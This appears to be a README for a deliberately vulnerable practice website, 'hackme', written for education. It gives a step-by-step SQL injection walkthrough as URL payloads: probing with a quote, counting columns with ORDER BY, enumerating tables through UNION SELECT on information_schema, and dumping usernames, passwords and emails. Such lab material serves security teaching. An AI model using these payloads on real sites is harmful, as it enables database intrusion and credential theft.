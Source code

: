 hackme
======

website for code vulnerability testing (educational purposes only)

### sql injection steps

1. Check for vulnerability

http://hackme.dev/?id=%27

2. Find the number of columns

wait for error

http://hackme.dev/?id=1 order by 1
...
http://hackme.dev/?id=1 order by 7

3. check union select to identify columns

http://hackme.dev/?id=1 union all select 1,2,3,4,5,6

4. identify table names

http://hackme.dev/?id=1 union all select 1,table_name,3,4,5,6 from information_schema.tables

5. get columns from user table

http://hackme.dev/?id=1 union all select 1,column_name,3,4,5,6 from information_schema.columns where table_name='user'

6. now select * from user table

http://hackme.dev/?id=1 union all select 1,username,password,email,5,6 from user
